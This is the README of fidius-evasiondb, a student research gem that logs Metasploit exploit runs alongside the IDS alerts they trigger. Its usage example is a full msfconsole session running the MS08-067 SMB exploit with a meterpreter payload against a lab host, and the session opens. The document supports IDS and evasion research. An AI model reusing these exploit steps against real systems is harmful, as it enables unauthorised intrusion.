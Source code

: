 # FIDIUS fidius-evasiondb

The FIDIUS Evasion-DB Gem provides a database which contains knowledge about metasploit exploits and their corresponding Alert-Events produced by Intrusion Detection Systems (IDS). It includes a Metasploit plugin which supports the recording of thrown alerts during the execution of an exploit.

Description

This gem is developed in the context of the students project "FIDIUS" at the
University of Bremen, for more information about FIDIUS visit
[fidius.me](http://fidius.me/en).

## Installation

Simply install this package with Rubygems:

    $ gem install fidius-evasiondb

Then switch to the root directory of your Metasploit installation and run

    $ fidius-evasiondb -e

Follow the instructions. 

This Gem currently uses 2 databases:

 * ids_db: A PreludeManager-Database for fetching IDMEF-Events.
 * evasion_db: Knowledge-Database for information about Exploits and their IDMEF-Events.

Please note: The Evasion-DB Gem has only been tested with Linux systems
and might not work with Windows.

## Configuration

The database configuration can be found in

    path/to/your/metasploit/root/data/database.yml 

It has been tested with Postgres and MySQL databases but should work for others, too.

## Usage

There are two possibilities to use this Gem, either inside the Metasploit console (with a plugin) or from external scripts by requiring the Gem. 
The first method (use in msfconsole) is intended to generate knowledge about exploits. You can execute any module withhin metasploit 
and log corresponding IDMEF-Events. 

Please note: Currently it is only possible to fetch IDMEF-Events from an existing and configured PreludeManager-Database. At the beginning
of a module execution timestamp and number of total events in prelude are measured. After the module is finished newly generated
events are identified via timestamp and the attackers source ip.

### In msfconsole

* example for monitoring an exploit. After loading the plugin all modules which are executed by metasploit will be monitored.
All payload which is send to the target will be stored in the Knowledge-Database. After executing of the module finished generated
IDMEF-Events will be fetched from the Prelude-Database and stored to the Knowledge-Database, too.

        $ msf > load evasiondb
        $ [*] EvasionDB plugin loaded.
        $ [*] Successfully loaded plugin: FIDIUS-EvasionDB
        $ msf > use exploit/windows/smb/ms08_067_netapi
        $ msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/bind_tcp
        $ PAYLOAD => windows/meterpreter/bind_tcp
        $ msf exploit(ms08_067_netapi) > set RHOST 10.20.20.1
        $ RHOST => 10.20.20.1
        $ msf exploit(ms08_067_netapi) > exploit
        $ [*] Started bind handler
        $ [*] Automatically detecting the target...
        $ [*] Fingerprint: Windows XP - Service Pack 2 - lang:German
        $ [*] Selected Target: Windows XP SP2 German (NX)
        $ [*] Attempting to trigger the vulnerability...
        $ [*] Sending stage (749056 bytes) to 10.20.20.1
        $ [*] Meterpreter session 1 opened (10.0.0.100:52764 -> 10.20.20.1:4444) at 2011-03-28 16:42:53 +0200
        $ meterpreter > exit
        $ [*] Meterpreter session 1 closed.  Reason: User exit
        $ msf exploit(ms08_067_netapi) > show_events
        $ ------------------------------------------------------------
        $ exploit/windows/smb/ms08_067_netapi with 47 options
        $ ------------------------------------------------------------
        $ 11 idmef-events fetched
        $ ------------------------------------------------------------
        $ (1)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
        $ (2)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
        $ (3)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
        $ (4)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
        $ (5)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
        $ (6)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
        $ (7)ET POLICY PE EXE or DLL Windows file download with 1324 bytes payload
        $ (8)ET POLICY PE EXE or DLL Windows file download with 1324 bytes payload
        $ (9)ET EXPLOIT x86 JmpCallAdditive Encoder with 759 bytes payload
        $ (10)ET EXPLOIT x86 JmpCallAdditive Encoder with 467 bytes payload
        $ (11)NETBIOS SMB-DS IPC$ share access with 72 bytes payload
        $ msf exploit(ms08_067_netapi) > 

### From external script

* require gem, connect_db
* Only queries possible

### Queries
Sample how the knowledge in EvasionDB can be queried:
        ruby-1.9.1-p378 > require 'fidius-evasiondb'
         => true 
        ruby-1.9.1-p378 > FIDIUS::EvasionDB.config "data/database.yml"
        ruby-1.9.1-p378 > events = FIDIUS::EvasionDB::Knowledge.find_events_for_exploit "exploit/windows/smb/ms08_067_netapi"
        ruby-1.9.1-p378 > events.size
         => 11 
        ruby-1.9.1-p378 > events.first.severity
         => "medium" 
        ruby-1.9.1-p378 > events.first.text
         => "COMMUNITY SIP TCP/IP message flooding directed to SIP proxy" 

### Find an Exploit
        ruby-1.9.1-p378 > m = FIDIUS::EvasionDB::Knowledge::AttackModule.first
         => #<FIDIUS::EvasionDB::Knowledge::AttackModule id: 1, name: "exploit/windows/smb/ms08_067_netapi", options_hash: "4d70ba1e95523e6d602e316a2553decf", finished: true, created_at: "2011-04-02 13:43:44", updated_at: "2011-04-02 13:45:05">

### Find IdmefEvents
        ruby-1.9.1-p378 > event = m.idmef_events.first
         => #<FIDIUS::EvasionDB::Knowledge::IdmefEvent id: 1, attack_module_id: 1, attack_payload_id: nil, payload: "wrong lookup type\x00\x00\x00unsupported algorithm\x00\x00\x00unknown...", detect_time: "2011-04-02 13:44:30", dest_ip: "10.20.20.1", src_ip: "10.0.0.100", dest_port: 4444, src_port: 45944, text: "COMMUNITY SIP TCP/IP message flooding directed to S...", severity: "medium", analyzer_model: "prelude-manager", ident: 1076676, created_at: "2011-04-02 13:45:03", updated_at: "2011-04-02 13:45:05"> 

### Find Packets
        ruby-1.9.1-p378 > m.packets.first
         => #<FIDIUS::EvasionDB::Knowledge::Packet id: 1, attack_module_id: 1, attack_payload_id: nil, src_addr: "0.0.0.0", dest_addr: "10.20.20.1", src_port: "0", dest_port: "445", payload: "\x00\x00\x00T\xFFSMBr\x00\x00\x00\x00\x18\x01(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xCD\x11\x00\x00\xB2|\x001\x00\x02LANMAN1.0\x00\x02...", created_at: "2011-04-02 13:43:47", updated_at: "2011-04-02 13:43:47"> 

### Find Payload of Packet
        ruby-1.9.1-p378 > m.packets.first.payload
         => "\x00\x00\x00T\xFFSMBr\x00\x00\x00\x00\x18\x01(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xCD\x11\x00\x00\xB2|\x001\x00\x02LANMAN1.0\x00\x02LM1.2X002\x00\x02NT LANMAN 1.0\x00\x02NT LM 0.12\x00" 


### Find Options of Exploit
        ruby-1.9.1-p378 > m.attack_options.first.option_key
         => "EXITFUNC" 
        ruby-1.9.1-p378 > m.attack_options.first.option_value
         => "thread" 

## Authors and Contact

fidius-evasiondb was written by

* FIDIUS Intrusion Detection with Intelligent User Support
  <grp-fidius@tzi.de>, <http://fidius.me>
* in particular:
 * Bernhard Katzmarski <bkatzm@tzi.de>
 * Jens Färber <jfaerber@tzi.de>

If you have any questions, remarks, suggestion, improvements,
etc. feel free to drop a line at the addresses given above.
You might also join `#fidius` on Freenode or use the contact
form on our [website](http://fidius.me/en/contact).


## License

Simplified BSD License and GNU GPLv2. See also the file LICENSE.

